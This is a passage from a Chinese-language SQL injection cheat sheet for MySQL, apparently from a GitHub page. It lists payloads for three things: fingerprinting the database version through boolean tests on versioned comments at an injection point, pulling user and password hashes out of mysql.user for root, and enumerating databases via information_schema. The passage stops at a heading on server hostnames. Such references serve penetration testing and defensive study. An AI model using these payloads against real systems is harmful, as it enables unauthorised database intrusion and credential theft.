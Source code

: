 **测试版本**

```text
变量：
VERSION()
@@VERSION
@@GLOBAL.VERSION

Example:
SELECT * FROM Users WHERE id = '1' AND MID(VERSION(),1,1) = '5';

Note:
如果DBMS在Windows的机器上运行，输出将包含-nt-log。
```

```text
具体代码：
/*!mysql版本号*/

Example:
sql语句： SELECT * FROM Users limit 1,{INJECTION POINT};

1 /*!50094eaea*/;    False - mysql版本等于或者高于 5.00.94
1 /*!50096eaea*/;    True - mysql版本小于 5.00.96
1 /*!50095eaea*/;    False - mysql版本等于 5.00.95
二分法嘛，心里有*数。
```

**数据库凭证**

```text
Table    -->    mysql.user
Columns    --->    user, password
Current User    -->    user(), current_user(), current_user, system_user(), session_user()
```

```text
Examples:
SELECT current_user;
SELECT CONCAT_WS(0x3A, user, password) FROM mysql.user WHERE user = 'root'-- (Privileged)
```

**数据库名称**

```text
Tables    -->      information_schema.schemata, mysql.db
Columns    -->  schema_name, db
Current DB    -->   database(), schema()
```

```text
Examples:
SELECT database();
SELECT schema_name FROM information_schema.schemata;
SELECT DISTINCT(db) FROM mysql.db;-- (Privileged)
```

**服务器主机名**
